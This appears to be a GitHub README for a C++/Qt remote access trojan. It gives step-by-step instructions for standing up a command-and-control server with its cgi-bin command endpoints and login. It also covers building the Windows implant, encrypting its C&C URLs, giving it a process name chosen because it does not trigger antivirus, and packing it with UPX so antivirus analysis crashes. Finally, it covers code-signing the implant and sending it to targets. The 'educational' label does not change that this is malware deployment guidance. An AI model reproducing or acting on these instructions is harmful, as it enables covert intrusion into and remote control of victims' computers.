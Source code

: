 # RAT
Rat coded in C++ and using QT
Educational Purposes Only
USAGE OF THIS PROGRAM's code, credit must be give

SETUP GUIDE
============


Server Side Instructions:
===========================
In order to setup the control panel, you will need a linux VPS with root access.
You only need to do this once.
I recommend ubuntu as it is easier to get and install packages required to build the control panel.

1.Download the Files
2. Upload QT folder to the server

2.2. You now have to install qtcreator before compiling, under ubuntu please issue the following command as root:
apt-get install qtcreator


2.3. Now go to the p folder (cd p/) and edit your config file common.h, this file is quite stright forward as you can see:

This is where your domain goes:
#define P_HOSTNAME                                     "bitspeercachedetect.com"

These are required for SSL support:
#define P_PEM_CERT                            "bitspeercachedetect.com.cert.pem" // Your SSL certificate file
#define P_PEM_KEY                              "bitspeercachedetect.com.key.pem" // Your private SSL key file
#define P_PEM_CHAIN                                              "gd_bundle.crt" // Godaddy certificate bundles

You can get the last file from https://certs.godaddy.com/anonymous/repository.pki considering you SSL certificate is from Godaddy.
You don't need to use SSL but it is highly recommended for obvious reasons.

- Other configuration options are just for fine tuning but work perfectly fine the way they are, don't change them unless you've read the entire (yes, the entire) code !!

2.4 Compile the code using these 2 commands:
qmake
make
This will take a while as it is quite a lot of code.

2.5 Once done compiling you need to setup one last thing. cd to the htroot directory. (command: cd htroot)
- Create a folder with your domain name, for example: mkdir my.domain.com
- run the following command, replace my.domain.com with your C&C domain:
cp -R localhost/* my.domain.com/

- cd to the cgi-bin dir under your domain's folder, ie: cd my.domain.com/cgi-bin
- Now run the following commands:
touch clock
touch cmd
touch dir
touch drop
touch ip
touch list
touch noop
touch otp
touch otpgen
touch report
touch session

- go back to domain (cd ..) folder and run command mkdir static-files
- go inside folder static-files run this command:
ln -s  ../../../htbits/sessions/ gpe3c55teci1r975ihvfxkjexvzd3z4z

- Make sure no other webserver is running (like apache2 or nginx), if they are just stop them
/etc/init.d/nginx stop
/etc/init.d/apache2 stop
apache2ctl stop

- All done! Now go back to the main folder (p) and execute the webserver: ./p &
- You might want to setup a cron job that checks and runs the file if it is not running.

In order to login you must generate a One-Time-Password using the following link:
http://my.domain.com/cgi-bin/otpgen?cred={6jsi84qp-z1vi-xt14-nl6q-cdhbq3w7qrmt}
- Then take this password and use it @ login:
http://my.domain.com/cgi-bin/list

Notice that if you are not using SSL you will still be redirected to a SSL link (https://) - Just replace this with http:// and you should be good.







Client Side Setup:
===================

Requirements:
--------------
1. Visual Studio (2010 is recommended but others should work with no problems)
2. Stringprotect.exe (provided with this code)
3. UPX version 3.07 (!)


1. Extract the file p2-export.tar.bz2 to any location.

2. Go to the folder named "d" and open d.sln.
- You might be asked to convert the file depending on your version of visual studio. Do it if you are asked.

3. In visual studio, find the file named common.h and open it on your screen, this is the config file for the client side.

4. You will see 2 sets of config, 1 that doesnt use string protect and 1 that does. You only need to change the encrypted strings. Unencrypted is only for reference and debugging.

- Open the string encryption tool (stringprotect.exe) provided to you by me in the archive.
- First, we want to change the URLs of the C&C:
- In the tool write the following, be sure that my.domain.com is the actual domain you are using:
S("http://my.domain.com/")
if you want SSL support use https:
S("https://my.domain.com/")
* !! YOU MUST HAVE A REAL AND VALID SSL CERTIFICATE FOR THIS DOMAIN IF YOU WANT TO USE SSL !! *

This will results in an encrypted strings in the second box, copy that strings [without the "S(" and ")" just the \x5c... part] into the right place of common.h so it looks like this:

#define URL_HOST L"\x5c\x5b\x45\x48\x72\x6c\x7e\x76\x56\x46\x45\x4b\x71\x33\x34\x2b\x57\x4e\x52\x50\x64\x32\x34\x2d\x51\x4c\x45\x16\x62\x39\x3c\x76\x34"

- now change other encrypted strings (ALL OF THEM), for example where #define REQUEST_NOOP is located you must encrypt string like:
http://my.domain.com/cgi-bin/noop?id=
so in stringprotect.exe you write:
S("http://my.domain.com/cgi-bin/noop?id=")
and copy encrypted string to the right location at common.h so it looks like:

#define REQUEST_NOOP L"\x5c\x5b ..."

- MAIN_FILENAME is the name of the file that will be created and run, reader_sl.exe is great since it does not trigger AV and is used everywhere. This is the name of the new process after running the exe on target. If you use svchost etc it might trigger AV so be careful.


--- *ONLY IF* you are *NOT* using code signing, you must change the following in main.cpp: 
    ===========================================
  switch (trustissueres) {
  case TRUST_E_PROVIDER_UNKNOWN:
    OSVERSIONINFO vi;
    ZeroMemory(&vi, sizeof(OSVERSIONINFO));
    vi.dwOSVersionInfoSize = sizeof(vi);
    if (GetVersionEx(&vi) && vi.dwMajorVersion == 5 && vi.dwMinorVersion == 2
      && trustissueres == TRUST_E_PROVIDER_UNKNOWN) {
      return;
    }
  case TRUST_E_NOSIGNATURE:
  case TRUST_E_SUBJECT_FORM_UNKNOWN:
    exit(1);
    break;
  case 0:
    break;
  default:
    exit(1);
  }

comment all this out using /* and */.

######################################################################################
# *** Make sure to set visual studio to building in Release mode and not Debug ! *** #
######################################################################################

Now just build the project, and you will have a file named d.exe in the Release folder of the project.

IMPORTANT:
YOU MUST USE upx VERSION 3.07, or else the file will fail to decrypt itself and the strings when running!
- using upx in a cmd.exe window do this for example:
C:\upx307w> upx.exe -9 d.exe

- Now your file is ready to be digitally signed with signtool and sent to your clients :)
https://www.google.com/search?q=signtool
I recommend using like this from cmd.exe:
signtool /signwizard

Don't forget to use time-stamp url so the signature will be valid forever.


Good Luck!









Extra info:
-----------
This is a very big and complex code. Not the every-day skid quality.
If you are making changes to it there are some things you should be aware of:

String encryption is quite a simple encryption code found in main.cpp.

The encryption key is part of the binary file (after compiled). It is the string of the UPX version.
"3.07(0x00)UPX"
This is why you must use upx 3.07 to pack the file.
This also insures that if AV unpacks the file from UPX to analyze - it cannot run correctly and will crash.

Wintrust is also used to ensure that the file has been signed.
If the fils is not signed (and if you didn't change the source code) - The file will not run.
This way tampering and static analysis is quite impossible. Unless you want to analyze a upx packed file :-)
Other anti-debgging techs are implanted into the code and you can find them mostly in main.cpp



upx 3.0.7
windows sdk
pscp
visual studio 2010
putty.exe

VPS Ubuntu 14.04 LTS (32bit)
Thanks and Much Love ~ -0xret2plt
